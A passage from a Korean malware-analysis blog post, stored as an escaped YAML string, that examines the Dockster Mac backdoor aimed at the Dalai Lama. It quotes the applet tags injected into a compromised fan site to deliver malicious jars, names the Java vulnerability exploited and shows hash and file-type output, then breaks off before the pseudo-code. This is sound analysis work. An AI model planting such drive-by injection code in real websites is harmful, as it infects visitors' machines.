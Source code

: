 ```yaml
    href=\"http://4.bp.blogspot.com/-A4WbpH2LFSk/TwYhXTRynrI/AAAAAAAAMe4/zy6-yOIhfAQ/s1600/gma_wonders_china_tibet_ssh.jpg\"><img
    class=\"aligncenter\" alt=\"\" src=\"http://4.bp.blogspot.com/-A4WbpH2LFSk/TwYhXTRynrI/AAAAAAAAMe4/zy6-yOIhfAQ/s1600/gma_wonders_china_tibet_ssh.jpg\"
    width=\"531\" height=\"411\" /></a>\n\n중국은 정치적인 이유로 자치권을 가지는 티벳을 중국의 일부라고 주장하며
    침략하였고, 티벳은 독립시위를 하며 자기자신을 독립국이라고 전세계에 어필하였다. 하지만 중국은 국제사회의 비난에도 불구, 티벳 인구의 10만여명을
    사살하였다.\n\n<a href=\"http://forensic.n0fate.com/wp-content/uploads/2014/01/tibetanactivists_wideweb__470x3210.jpg\"><img
    class=\"aligncenter size-full wp-image-743\" alt=\"Riot policemen try to detain
    Tibetan activists protesting outside the China embassy in Kathmandu\" src=\"http://forensic.n0fate.com/wp-content/uploads/2014/01/tibetanactivists_wideweb__470x3210.jpg\"
    width=\"470\" height=\"321\" /></a>\n\n티벳에는 종교적/정치적 지도자가 있었으니, 이는 달라이 라마(Dalai
    Lama)라 불린다. 한국어로 해석하면 스승 또는 대사라 불리우며, 지금까지 14명의 대사가 있었다. 현재는 중국의 침략을 피해 1959년
    인도로 망명한 달라이 라마 14세인 텐진 갸초가 달라이 라마이다. 참고로 텐진 갸초는  1989년에 노벨평화상을 받기도 한 인물이다.\n\n[caption
    id=\"\" align=\"aligncenter\" width=\"458\"]<a href=\"http://cfile218.uf.daum.net/original/1972A9044C167CA620562F\"><img
    class=\" \" alt=\"\" src=\"http://cfile218.uf.daum.net/original/1972A9044C167CA620562F\"
    width=\"458\" height=\"685\" /></a> 텐진갸초[/caption]\n\nDockster는 이러한 상황에서 티벳을 겨냥한
    사이버 공격이였다. 이 악성코드는 2012년 10월 5일 gyalwarinpoche.com 이라는 사이트에서 최초 발견되었으며, 자바 애플릿
    취약점을 활용하여 웹사이트 접속 시점에 익스플로잇 발생으로 특정 악성코드를 실행시키는 \"drive by java applet\" 공격을 수행하였다.
    최종 분석을 해보면, Dockster는 14대 달라이 라마인 텐진갸초를 공격 대상으로 삼은 것을 알 수 있는데, 그 근거는 다음과 같다.\n\n1.
    달라이라마 팬사이트에 자바 취약점을 삽입 : gyalwarinpoche.com은 원래 달라이라마에 관련된 자료를 올리는 사이트로 공격자는 이
    사이트를 공격한 다음 자바 애플릿을 코드에 삽입하였다.\n<pre class=\"lang:js decode:true\" title=\"injected
    code\">&lt;html&gt;\n&lt;body&gt;\n&lt;applet width=10 height=10 code=a.class
    archive=destmac.jar&gt;&lt;/applet&gt;\n&lt;/body&gt;\n&lt;/html&gt;\n&lt;body&gt;\n&lt;TITLE&gt;gylwainpoche&lt;/TITLE&gt;\n&lt;APPLET
    CODE=bbb.class archive=install.jar WIDTH=200 HEIGHT=100&gt;&lt;/APPLET&gt;\n&lt;/body&gt;\n&lt;/html&gt;</pre>\n2.
    Mac OS X용 악성코드를 내장하고 있다. Dockster는 PowerPC 및 Intel x86 아키텍처 기반에서 실행할 수 있는 Mac
    OS X용 악성코드이다. 2012년은 Mac OS X Lion이 공개된 시점이니 대부분의 맥에서 작동 가능하다고 볼 수 있다. 보통은 공격하기
    위해 윈도우용 악성코드를 개발할텐데 왜 이 공격자는 맥용 악성코드를 만들었을까? 그 이유는 다음 한장의 사진으로 설명이 된다.\n\n<img
    class=\"alignnone aligncenter\" alt=\"\" src=\"http://securityaffairs.co/wordpress/wp-content/uploads/2012/06/Dalai_Lama_Mac.jpg\"
    width=\"806\" height=\"621\" />\n\n<span style=\"line-height: 1.5em;\">즉, 이 공격은
    Tibet, 그 중에서도 달라이 라마를 타겟으로 정교하게 구성된 APT 공격인 것이다. 이제 이 악성코드가 어떤 기능을 가지고 있는지 연재로
    다뤄보고자 한다.</span>\n\n&nbsp;\n<h2>2. 분석</h2>\n여기에서 확보한 악성코드는 자바 애플릿 인젝션에 사용된 destmarc.jar
    파일이다.\n<pre class=\"lang:sh decode:true\" title=\"malware hash\">$ md5 destmarc.jar\nMD5
    (destmarc.jar) = 5415777db44c8d808ee3a9af94d2a4a7</pre>\njar 파일을 Java Decompiler(JD-GUI)로
    확인하면, a.class 파일이 다음과 같이 작성되어 있다.\n\n<a href=\"http://forensic.n0fate.com/wp-content/uploads/2014/01/Screen-Shot-2014-01-28-at-5.47.36-PM.png\"><img
    class=\"aligncenter size-full wp-image-744\" alt=\"JAVA-2012-0507\" src=\"http://forensic.n0fate.com/wp-content/uploads/2014/01/Screen-Shot-2014-01-28-at-5.47.36-PM.png\"
    width=\"686\" height=\"331\" /></a>\n\n저 바이트 배열은 전형적인 JAVA-2012-0507 취약점이다. 실제로
    init 메서드의 smali 코드를 보면 AtomicReferenceArray 클래스를 이용하는 것을 볼 수 있다. 결국 이 악성코드는 자바
    취약점을 이용하여 jar 파일 내부에 있는 file.tmp을 드롭하여 실행한다. 그러면 실제 악성 행위를 하는 file.tmp를 확인해보겠다.\n<pre
    class=\"lang:sh decode:true\" title=\"file command on dockster\">$ file file.tmp\nfile.tmp:
    Mach-O universal binary with 2 architectures\nfile.tmp (for architecture ppc):\tMach-O
    executable ppc\nfile.tmp (for architecture i386):\tMach-O executable i386</pre>\n이
    악성코드는 Power PC용과 Intel x86용으로 빌드된 Mach-O 파일을 보유하는 유니버셜 바이너리(Universal Binaries)이다.
    Power PC는 거의 사용되지 않으며, 특히 달라이 라마가 사용하는 맥북 모델을 봤을 때 인텔 아키텍처를 사용했으므로  i386 아키텍처를
    대상으로 분석을 진행하겠다. file.tmp는 xCode로 작성된 프로그램이지만 거의 대부분의 코드가 posix API를 이용하였다. 그리고
    주요 데이터 및 모든 통신을 암호화하기 위해 내부적으로 <a href=\"https://github.com/mort666/RSAEuro\"
    target=\"_blank\">RSAEuro Toolkit</a>을 사용하고 있다. 이 툴킷은 오픈소스이며, 대부분의 암호화 기능이 내장되어
    있다.\n\n<a href=\"http://forensic.n0fate.com/wp-content/uploads/2014/01/rsaeuro.png\"><img
    class=\"aligncenter size-full wp-image-745\" alt=\"rsaeuro toolkit\" src=\"http://forensic.n0fate.com/wp-content/uploads/2014/01/rsaeuro.png\"
    width=\"513\" height=\"116\" /></a>\n\n또한 중간중간 중국어 문자열이 있는 것으로보아, 중국어를 사용하는 국가에서
    개발했을 가능성이 높다고 볼 수 있다. 본 악성코드는 xCode에서 생산된 바이너리의 전형적인 실행 구조를 띄는데, start-&gt;_start-&gt;_main
    순서로 호출하며, 실제로는 _main 함수(main함수)가 공격을 수행하는 핵심 코드라 보면 된다.\n\n<a href=\"http://forensic.n0fate.com/wp-content/uploads/2014/01/main-function.png\"><img
    class=\"aligncenter size-full wp-image-746\" alt=\"main function\" src=\"http://forensic.n0fate.com/wp-content/uploads/2014/01/main-function.png\"
    width=\"556\" height=\"624\" /></a>\n\n이 함수의 주요 기능을 Pseudo-Code로 작성하면 다음과 같다.
```